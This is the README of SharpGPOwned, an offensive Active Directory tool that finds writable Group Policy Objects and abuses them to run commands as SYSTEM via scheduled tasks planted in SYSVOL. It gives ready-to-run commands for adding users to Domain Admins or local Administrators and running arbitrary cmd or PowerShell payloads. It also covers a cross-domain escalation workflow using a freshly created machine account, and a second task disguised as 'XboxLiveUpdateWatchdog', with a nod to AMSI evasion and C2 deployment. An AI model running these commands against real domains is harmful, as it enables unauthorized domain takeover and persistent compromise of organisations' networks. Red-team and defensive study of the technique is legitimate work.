



<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/n0troot/SharpGPOwned/releases/latest">
    
  </a>
  &nbsp;
  
  &nbsp;
  
  &nbsp;
  <a href="https://github.com/n0troot/SharpGPOwned/issues">
    
  </a>
</p>

<p align="center">
  .NET port of <a href="https://github.com/n0troot/Invoke-GPOwned">Invoke-GPOwned</a> - two standalone EXEs, no PowerShell, no AMSI surface.<br>
  <b>GPRecon.exe</b> identifies writable GPOs &nbsp;·&nbsp; <b>GPOwned.exe</b> exploits them.
</p>

---

## Table of Contents

- [How it works](#how-it-works)
- [Two-task technique](#two-task-multitasking-technique)
- [Requirements](#requirements)
- [GPRecon](#gprecon)
- [GPOwned](#gpowned)
- [Cross-domain / machine account attacks](#cross-domain--machine-account-attacks)
- [Building from source](#building-from-source)
- [Credits](#credits)

---

## How it works

Write access to a GPO equals write access to SYSVOL. GPOwned drops a GPP ImmediateTask into `ScheduledTasks.xml` under `SYSVOL\<domain>\Policies\<GUID>\Machine\Preferences\ScheduledTasks\`. On the next Group Policy refresh the task fires as `NT AUTHORITY\SYSTEM`.



---

## Two-task (multitasking) technique

The `--stx` flag enables a two-stage execution chain. Instead of running the payload directly from the SYSVOL task, the primary task registers a second local scheduled task (`XboxLiveUpdateWatchdog`) that fires moments later in the context of the highest-privileged user session on the machine.



**Why two tasks?**

| Reason | Detail |
|--------|--------|
| **Context switching** | The GPO task runs as `NT AUTHORITY\SYSTEM`. Some payloads need a specific user's interactive session (e.g. a DA on a workstation). The watchdog runs under `S-1-5-32-545` with `HighestAvailable`, inheriting the active session. |
| **Indirection** | The primary task only drops `add.bat` and `wsadd.xml` to disk - the payload is never written to SYSVOL. |
| **Timing control** | The 5-second registration delay lets the primary task expire and self-delete before the watchdog fires. |

---

## Requirements

| Requirement | Detail |
|-------------|--------|
| .NET Framework 4.8 | Pre-installed on Windows 10 / Server 2019+ |
| Authenticated domain session | Domain-joined host with a valid Kerberos ticket |
| Write access to a GPO | Use GPRecon to find candidates |
| `Xblsv.dll` in the same directory | Regular builds only - standalone builds embed the DLL |

> **Standalone builds** embed `Xblsv.dll` directly - no side-by-side DLL required. Useful for C2 deployment.

---

## GPRecon

Enumerates all GPOs via SYSVOL, tests ACLs against the current user (or supplied credentials), and maps linked OUs. When a writable GPO is found, the identity granting write access is shown inline.

**Example output:**

```
  WRITABLE   Default Domain Policy               {31B2F340-016D-11D2-945F-00C04FB984F9}
              └─ via: CORP\Domain Users

  read-only  Workstation Baseline                {A4B2C3D4-E5F6-7890-ABCD-EF1234567890}
```

### Usage

```
GPRecon.exe --all
GPRecon.exe --all --vulnerable
GPRecon.exe --all --full
GPRecon.exe --gpo "Default Domain Policy"
GPRecon.exe --gpo {31B2F340-016D-11D2-945F-00C04FB984F9} --full
GPRecon.exe --all --domain other.corp.local -u jdoe -pw P@ssw0rd
GPRecon.exe --all --domain other.corp.local --ma PC01 --mp Sup3rS3cr3t
```

### Flags

| Flag | Description |
|------|-------------|
| `--all` | Scan every GPO in the domain |
| `--gpo <name\|GUID>` | Check a specific GPO by display name or GUID |
| `--vulnerable` | Only display writable GPOs - use with `--all` |
| `--full` | Also enumerate computers in each linked OU |
| `--domain` / `-d <fqdn>` | Target domain FQDN (default: current domain) |
| `--username` / `-u <user>` | Username for LDAP + SYSVOL queries |
| `--password` / `-pw <pass>` | Password for the above user |
| `--machineaccount` / `--ma <name>` | Machine account name — `$` appended automatically. Accepts `PC01`, `PC01$`, or `DOMAIN\PC01` |
| `--machinepassword` / `--mp <pass>` | Machine account password. Takes precedence over `--username` |

---

## GPOwned

### Select a GPO

One of the following is required:

```
--guid {3875477A-B67F-4D7B-A524-AE01E5675ADD}
--gpo  "Default Domain Policy"
```

### Payload flags

One is required:

| Flag | Effect |
|------|--------|
| `--da` | Add `--user` to Domain Admins via the target DC |
| `--local` | Add `--user` to local Administrators on `--computer` |
| `--cmd <args>` | Run `cmd.exe <args>` as SYSTEM |
| `--ps <cmd>` | Run `powershell.exe <cmd>` as SYSTEM |

> Single quotes in `--cmd` / `--ps` / `--scmd` / `--sps` are converted to double quotes automatically.

### Target and identity flags

| Flag | Required | Default | Description |
|------|:--------:|---------|-------------|
| `--computer` / `-c` | Yes | - | Target machine FQDN |
| `--user` / `-u` | For `--da` / `--local` | - | User to elevate |
| `--domain` / `-d` | | Forest root | Target domain FQDN |
| `--author` / `-a` | | Auto-detected DA | Account name written to the task `Author` field |
| `--interval` / `-int` | | 90 | Minutes between execution-verification polls |

### Machine account flags

Use these when you hold credentials for a machine account that has write access to the GPO (e.g. `Authenticated Users` ACE on a cross-domain GPO, combined with `MachineAccountQuota`).

| Flag | Description |
|------|-------------|
| `--machineaccount` / `--ma <name>` | Machine account name — `$` appended automatically. Accepts `PC01`, `PC01$`, or `DOMAIN\PC01` |
| `--machinepassword` / `--mp <pass>` | Machine account password |

When supplied, the tool logs on with these credentials using `LOGON_NEW_CREDENTIALS` (equivalent to `runas /netonly`) before touching AD or SYSVOL. A green confirmation line is printed once the logon token is obtained:

```
Auth   : PC01$  (machine account)
Impersonation OK — LDAP and SYSVOL will use PC01$
```

### Second-task flags (`--stx`)

| Flag | Description |
|------|-------------|
| `--stx <path\|.>` | Enable two-task mode. Pass `.` to use the embedded `wsadd.xml` template |
| `--scmd <args>` | CMD arguments for the watchdog task |
| `--sps <cmd>` | PowerShell command for the watchdog task |

### Misc flags

| Flag | Description |
|------|-------------|
| `--xml <path>` | Custom `ScheduledTasks.xml` template - default: embedded |
| `--log <path>` | Tee all output to a log file |

---

## Examples

**DA escalation via a DC-linked GPO:**
```
GPOwned.exe --gpo "Default Domain Policy" --computer dc01.corp.local --user jdoe --da
```

**Local admin on a workstation:**
```
GPOwned.exe --guid {3875477A-B67F-4D7B-A524-AE01E5675ADD} --computer ws01.corp.local --user jdoe --local
```

**Custom CMD payload:**
```
GPOwned.exe --gpo "MyGPO" --computer dc01.corp.local --cmd "/c whoami > C:\out.txt"
```

**Two-task - DA escalation via workstation GPO:**
```
GPOwned.exe --guid {D552AC5B-CE07-4859-9B8D-1B6A6BE1ACDA} ^
  --computer pc01.corp.local --author DAUser --stx . ^
  --scmd "/r net group 'Domain Admins' jdoe /add /dom"
```

**Cross-domain escalation using a machine account:**
```
GPOwned.exe --gpo "Workstation Policy" --computer dc01.other.corp ^^
  --domain other.corp --da --user jdoe ^^
  --ma PC01 --mp Sup3rS3cr3t
```

---

## Cross-domain / machine account attacks

A common scenario in multi-domain forests:

1. `Authenticated Users` has write access to a GPO in a trusted domain.
2. You have `MachineAccountQuota > 0` (default is 10) in that domain, so you can create a machine account.
3. Machine accounts are members of `Authenticated Users` by default.

**Workflow:**

```
# 1. Create a machine account in the target domain (e.g. via PowerMad / Impacket)
New-MachineAccount -MachineAccount PC01 -Password (ConvertTo-SecureString 'Sup3rS3cr3t' -AsPlainText -Force)

# 2. Recon the target domain as that machine account
GPRecon.exe --all --domain other.corp.local --ma PC01 --mp Sup3rS3cr3t

# 3. Exploit the writable GPO
GPOwned.exe --gpo "Writable Policy" --computer dc01.other.corp \
  --domain other.corp.local --da --user jdoe \
  --ma PC01 --mp Sup3rS3cr3t
```

Both tools use `LOGON_NEW_CREDENTIALS` internally — the same mechanism as `runas /netonly` — so all outbound LDAP and SYSVOL traffic uses the machine account while the local process identity is unchanged.

---

## Building from source

### Quick build - csc.exe

Requires `csc.exe`, shipped with .NET Framework 4.8 at `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\`.

```batch
cd src
build.bat             :: GPOwned.exe + GPRecon.exe + Xblsv.dll
build.standalone.bat  :: single-EXE builds with embedded DLL (run build.bat first)
```

### MSBuild / dotnet

```batch
dotnet build src\Shared\Shared.csproj                              -c Release
dotnet build src\GPOwned\GPOwned.csproj                            -c Release
dotnet build src\GPRecon\GPRecon.csproj                            -c Release
dotnet build src\GPOwned.Standalone\GPOwned.Standalone.csproj      -c Release
dotnet build src\GPRecon.Standalone\GPRecon.Standalone.csproj      -c Release
```

Output lands in `src\bin\`.

---

## Credits

Original technique and PowerShell implementation: [@n0troot](https://github.com/n0troot) - [Invoke-GPOwned](https://github.com/n0troot/Invoke-GPOwned)

Independently arrived at the same tool name - great minds think alike: [@X-C3LL](https://github.com/X-C3LL) - [GPOwned](https://github.com/X-C3LL/GPOwned)
